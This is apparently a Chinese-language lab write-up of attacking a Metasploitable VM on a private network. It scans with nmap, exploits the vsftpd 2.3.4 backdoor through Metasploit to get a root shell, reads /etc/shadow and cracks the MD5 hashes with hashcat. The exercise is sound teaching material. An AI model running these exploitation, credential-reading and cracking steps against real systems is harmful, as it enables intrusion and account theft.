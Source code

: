 # P1

![image-20220425150525227](README.assets/image-20220425150525227.png)

![image-20220425150535418](README.assets/image-20220425150535418.png)

- 攻击机ip:`192.168.56.133`
- 靶机ip:`192.168.56.139`

# P2

修改密码为

- msfadmin:`msf123`

- root：`xzc123`

# P3

使用 msf 中的 nmap 进行端口扫描.

```bash
sudo msfconsole
nmap -sS 192.168.56.0/24 -p 1-10000
```

![image-20220425153812066](README.assets/image-20220425153812066.png)

由于目标靶机开放着ftp的21端口, 因此考虑其是否存在 VSFTPD 源码包后门漏洞. 通过 Nmap 的 `ftp-vsftpd-backdoor` 脚本来进行扫描探测, 使用如下命令, 执行结果如下图所示, 可以看到存在该漏洞, 并且可以进行漏洞利用.

`nmap -script ftp-vsftpd-backdoor -p 21 192.168.56.139`

![image-20220425152112564](README.assets/image-20220425152112564.png)

# P4

在msf中查找和 vsftpd 有关的漏洞利用模块

`search vsftpd`

![image-20220425152145398](README.assets/image-20220425152145398.png)

选用模块, 并设置选项中的 `RHOSTS` 为目标靶机的IP

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set rhost 192.168.56.139
```

![image-20220425152313162](README.assets/image-20220425152313162.png)

进行漏洞利用, 并成功得到了目标靶机的shell

`exploit`

![image-20220425153943296](README.assets/image-20220425153943296.png)

使用 `ip addr` 命令查看当前shell所属的主机IP, 可以看到为靶机的IP; 使用 `id` 命令查询可以看到当前 shell 已是 root 权限

![image-20220425154002474](README.assets/image-20220425154002474.png)

使用 `cat` 命令即可列出靶机 shadow 文件中的内容

![image-20220425154052289](README.assets/image-20220425154052289.png)

可以看到 

msfadmin账号的内容为 `msfadmin:$1$nag8fB9j$0NcsY9PrE4tU1aqvY9tXE/:19107:0:99999:7:::`

root账号的内容为 `root:$1$m0reUzXE$oDw7nB8xl7UG2BZ1Ss1sg0:19107:0:99999:7:::`

# P6 msfadmin

msfadmin账号内容为: `$1$nag8fB9j$0NcsY9PrE4tU1aqvY9tXE/:19107:0:99999:7:::`, 由第一部分的值为 `1` 可以确定加密算法为 md5, 由第二部分可以确定加密的盐值为 `nag8fB9j`, 加密后的密文为 `0NcsY9PrE4tU1aqvY9tXE/`

使用 hashcat 工具进行破解. 通过对密码的已知信息, 使用如下命令进行暴力破解

新建一个1.txt

内容是`$1$nag8fB9j$0NcsY9PrE4tU1aqvY9tXE/`

破解命令

`hashcat -m 500 -a 3 ./1.txt ?l?l?l?d?d?d --force`

![image-20220425154535346](README.assets/image-20220425154535346.png)

破解成功得到`msf123`

![image-20220425154651486](README.assets/image-20220425154651486.png)

# P7 root

同上一部分 不再赘述

`hashcat -m 500 -a 3 ./2.txt ?l?l?l?d?d?d --force`

![image-20220425154804638](README.assets/image-20220425154804638.png)

破解成功得到`xzc123`

![image-20220425154816955](README.assets/image-20220425154816955.png)
